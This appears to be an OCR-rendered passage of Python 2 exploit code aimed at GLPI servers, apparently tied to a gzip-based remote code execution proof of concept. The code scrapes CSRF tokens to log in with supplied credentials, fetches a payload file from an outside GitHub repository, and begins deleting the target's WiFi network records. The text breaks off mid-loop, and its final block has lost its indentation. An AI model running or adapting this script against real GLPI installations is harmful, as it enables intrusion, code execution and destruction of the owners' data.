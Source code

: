     class GlpiBrowser:

        def __init__(self, url, user, password, platform):
            self.url = url
            self.user = user
            self.password = password
            self.platform = platform

            self.session = requests.Session()
            self.session.verify = False
            requests.packages.urllib3.disable_warnings()

        def extract_csrf(self, html):
            return re.findall('name="_glpi_csrf_token" value="([a-f0-9]{32})"', html)[0]

        def get_login_data(self):
            r = self.session.get('{0}'.format(self.url), allow_redirects=True)

            csrf_token = self.extract_csrf(r.text)
            name_field = re.findall('name="(.*)" id="login_name"', r.text)[0]
            pass_field = re.findall('name="(.*)" id="login_password"', r.text)[0]

            return name_field, pass_field, csrf_token

        def login(self):
            try:
                name_field, pass_field, csrf_token = self.get_login_data()
            except Exception as e:
                print "[-] Login error: could not retrieve form data"
                sys.exit(1)

            data = {
                name_field: self.user,
                pass_field: self.password,
                "auth": "local",
                "submit": "Post",
                "_glpi_csrf_token": csrf_token
            }

            r = self.session.post('{}/front/login.php'.format(self.url), data=data, allow_redirects=False)

            return r.status_code == 302

        def wipe_networks(self, padding, datemod):
            r = self.session.get('https://raw.githubusercontent.com/AlmondOffSec/PoCs/master/glpi_rce_gzip/poc.txt')
            comment = r.content

            r = self.session.get('{0}/front/wifinetwork.php#modal_massaction_contentb5e83b3aa28f203595c34c5dbcea85c9'.format(self.url))
            try:
                csrf_token = self.extract_csrf(r.text)
            except Exception as e:
                print "[-] Edit network error: could not retrieve form data"
                sys.exit(1)

            webpage = html.fromstring(r.content)
            links = webpage.xpath('//a/@href')
            for rawlink in links:
                if "wifinetwork.form.php?id=" in rawlink:
                rawlinkparts = rawlink.split("=")
                networkid = rawlinkparts[-1]
                print "Deleting network "+networkid

